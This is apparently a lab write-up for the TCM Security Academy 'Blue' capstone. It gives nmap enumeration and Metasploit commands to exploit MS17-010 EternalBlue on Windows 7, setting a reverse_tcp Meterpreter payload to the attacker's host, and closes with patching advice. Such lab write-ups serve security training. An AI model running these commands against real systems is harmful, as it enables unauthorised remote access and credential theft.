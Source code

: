 # TCM Security Academy Capstone Lab: Blue (EternalBlue Exploit)

## Overview

This writeup covers the exploitation of a vulnerable SMB service in the "Blue" lab from TCM Security Academy capstone using the EternalBlue exploit. The attack involves enumerating the target using `nmap` and exploiting it using `Metasploit Framework`.

## Tools Used

- `nmap` (for enumeration)
- `Metasploit Framework` (for exploitation)

## Enumeration

To identify the vulnerable SMB service, an `nmap` scan was performed:

```bash
sudo nmap -T4 -A <TARGET-IP>
```

![2025-03-16_08-00](https://github.com/user-attachments/assets/a4f07f5f-3d6e-4bba-a340-f40e983af7c0)

This revealed that the target is running **Windows 7 Ultimate Service Pack 1** and has SMB (`port 445`) open.

Additionally, searching for known exploits for this version confirmed that it is vulnerable to **MS17-010 (EternalBlue):**

![2025-03-16_08-01](https://github.com/user-attachments/assets/157b6e80-f5fe-4790-8b26-9de9e929e066)

## Exploitation

Using Metasploit, the following steps were executed:

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the EternalBlue exploit:
   ```bash
   search ms17-010
   ```
   ![2025-03-16_08-05](https://github.com/user-attachments/assets/30f4e4cb-3d78-42f8-99bc-39f1fe851f51)

3. Select the EternalBlue exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
4. Set the required options:
   ```bash
   set RHOSTS <TARGET-IP>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <YOUR-IP>
   set LPORT 4444
   ```
   ![2025-03-16_08-08](https://github.com/user-attachments/assets/47abc61b-49e0-4a92-ae80-3bd95076ff95)

5. Launch the exploit:
   ```bash
   exploit
   ```
   ![2025-03-16_08-09](https://github.com/user-attachments/assets/3c1e2b1d-f7fe-46c6-bca0-3e1e02f5234f)

If successful, this grants a **Meterpreter session**, providing remote access to the target:

![2025-03-16_08-10](https://github.com/user-attachments/assets/695114f6-1600-48d1-8d41-00e83ea9a583)

## Post-Exploitation

Once access is gained, various post-exploitation techniques can be used, such as:

- Privilege escalation
- Extracting credentials
- Maintaining persistence

## Mitigation

To prevent exploitation, the following security measures should be implemented:

- Patch the system (apply MS17-010 update)
- Disable SMBv1
- Restrict access to SMB services

## Conclusion

This lab demonstrated how the EternalBlue exploit can be used to compromise a vulnerable SMB service, highlighting the importance of timely patching and proper system hardening.

